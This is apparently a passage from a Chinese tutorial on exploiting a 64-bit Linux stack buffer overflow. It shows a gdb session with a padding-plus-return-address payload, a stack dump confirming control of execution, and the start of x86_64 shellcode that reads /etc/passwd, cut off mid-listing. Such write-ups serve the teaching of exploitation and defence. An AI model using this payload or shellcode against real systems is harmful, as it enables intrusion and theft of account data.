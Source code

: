 因为是小端结构所以我们需要把内存地址反序。这就是python语句[::-1]所实现的。

确认下我们跳入正确的地址。

```
$ gdb -tui bof 
(gdb) set disassembly-flavor intel 
(gdb) layout asm 
(gdb) layout regs 
(gdb) break main 
(gdb) run $(python -c 'print "A" * 264 +  
"\x7f\xff\xff\xff\xdc\x90"[::-1]') 
(gdb) x/20xg $rsp 
0x7fffffffddb8: 0x00007fffffffdc90  0x0000000000000000 
0x7fffffffddc8: 0x00007fffffffde98 0x0000000200000000 
0x7fffffffddd8: 0x000000000040060d 0x0000000000000000 
0x7fffffffdde8: 0xe72f39cd325155ac 0x0000000000400520 
0x7fffffffddf8: 0x00007fffffffde90 0x0000000000000000 
0x7fffffffde08: 0x0000000000000000 0x18d0c63289d155ac 
0x7fffffffde18: 0x18d0d68b8eab55ac 0x0000000000000000 
0x7fffffffde28: 0x0000000000000000 0x0000000000000000 
0x7fffffffde38: 0x0000000000400690 0x00007fffffffde98 
0x7fffffffde48: 0x0000000000000002 0x0000000000000000 

```

这是执行leave指令后的栈。如我们所知rsp指向0x7fffffffddb8。0x7fffffffddb8的内容是0x00007fffffffdc90。最后0x00007fffffffdc90指向我们控制的缓冲区。

```
(gdb) stepi 

```

ret指令执行后rip指向0x7fffffffdc90这意味着我们跳入了正确的位置。

0x06 执行shellcode
----------------

* * *

在这个例子中我准备用个定制的shellcode去读/etc/passwd的内容。

```
BITS 64 
; Author Mr.Un1k0d3r - RingZer0 Team 
; Read /etc/passwd Linux x86_64 Shellcode 
; Shellcode size 82 bytes 
global _start 
section .text 
_start: 
    jmp _push_filename 

_readfile: 
    ; syscall open file 
    pop rdi   ; pop path value 
    ; NULL byte fix 
    xor byte [rdi + 11], 0x41 

    xor rax, rax 
    add al, 2 
    xor rsi, rsi  ; set O_RDONLY flag 
    syscall 

    ; syscall read file 
    sub sp, 0xfff 
    lea rsi, [rsp] 
    mov rdi, rax 
```